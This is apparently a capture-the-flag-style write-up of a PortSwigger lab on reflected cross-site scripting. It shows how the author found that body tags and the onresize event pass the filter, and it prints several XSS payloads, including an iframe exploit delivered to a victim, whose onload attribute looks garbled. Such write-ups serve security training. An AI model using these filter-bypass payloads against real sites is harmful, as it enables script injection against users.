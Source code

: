 ```yaml
---
image: "img/Portswigger/xss.png"
---
```


--> i found that `custom tags` and `<body>` tags are accepted.

![](Attachments/Pastedimage20211026143657.png)

--> Now we know that we can use `body` tag so let's now brute force for events.

I used this payload :

```markup
<body id=x tabindex=1 onactivate=alert(1)></body>
```

And i found `onresize` event is accepted.

![](Attachments/Pastedimage20211026144237.png)

--> So i searched for payload with body tag and onresize event and then i found this payload

```markup
<body onresize="print()">
```

--> but unfortunately it didn't worked :(

==> And we have to goto `exploit-server` tab and then enter your payload and then click `deliver exploit to victim`

Then i tried this payload and it worked !

```html
<iframe
  src="https://ac721f141f257377c03016fb002900d7.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E"
  onload="this.style.width"
  ="100px"
>
</iframe>
```

